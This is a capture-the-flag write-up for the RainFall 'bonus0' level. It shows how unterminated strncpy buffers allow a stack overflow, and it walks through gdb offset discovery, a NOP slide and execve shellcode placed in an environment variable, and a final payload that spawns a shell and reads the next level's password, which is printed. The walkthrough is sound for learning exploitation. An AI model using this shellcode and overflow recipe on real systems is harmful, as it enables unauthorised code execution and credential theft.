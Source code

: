 ## Context

There is an executable file named bonus0 that reads from the standard input twice. The two read strings are then displayed on the standard output, separated by a space.

With the help of gdb, we can reconstruct the [source code](source.c). A main() function makes a call to a pp() function which itself calls a p() function twice. It is in the p() function that stdin is read and stored using strncpy (with len = 20). In the pp() function the first read string is copied into a buffer using strcpy(). Its last byte is replaced by a space, then the second read string is added to the buffer using strcat().

## Lead

We can exploit strncpy(): the manual tells us that if `src` is less than `len` characters long, the remainder of `dst` is filled with ‘\0’ characters. Otherwise, `dst` is not terminated. So if we fill a string of 20 characters or more for the first read(), s1 will not be ended by a '\0'. Since s1 and s2 follow each other on the stack, this will have an interesting consequence: when calling strcpy() in the pp() function, the buffer will be filled with s1 and s2 (i.e. up to the '\0' of the s2 string). This will allow us overflow the buffer and overwrite the address contained in EIP. 

## Exploit

What we want to do is give EIP the address of a shellcode. First we need to find the offset of EIP, which we can do with gdb:
```
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 
AAAAAAAAAAAAAAAAAAAA
 - 
ABCDEFGHIJKLMNOPQRST
AAAAAAAAAAAAAAAAAAAAABCDEFGHIJKLMNOPQRST��� ABCDEFGHIJKLMNOPQRST���

Program received signal SIGSEGV, Segmentation fault.
0x4d4c4b4a in ?? ()
```
Here we have a segmentation fault because EIP contains 0x4d4c4b4a which does not refer to a valid memory area. 0x4d4c4b4a corresponds in fact to 'JKLM' in s2. The offset of EIP is 9 (from A to J).

Since there is not enough space in the buffer for our shellcode (the one we used before), what we can do is to save it in an environment variable. We add a [NOP slide](https://en.wikipedia.org/wiki/NOP_slide) just to be sure we get there:
```
bonus0@RainFall:~$ export shellcode=$(python -c 'print "\x90" * 100 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"')
```

We then need to find the address of this environment variable. Let's write a small program in /tmp for this:
```
#include <stdlib.h>
#include <stdio.h>

int main(void)
{
    printf("%p\n", getenv("shellcode"));
    return(0);
}
```
And here we are:
```
bonus0@RainFall:/tmp$ ./a.out 
0xbffffeca
```

We can now build our input: first 20 bytes to fill s1, then 9 bytes to reach EIP, then the shellcode address, and finally 7 bytes to complete s2:
```
bonus0@RainFall:~$ (python -c 'print "A" * 20'; python -c 'print "A" * 9 + "\xca\xfe\xff\xbf" + "A" * 7'; cat) | ./bonus0 
 - 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAAAAAA��� AAAAAAAAA����AAAAAAA���
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
We can now reach to the next level with the command `su bonus1` and fill in the flag found as a password.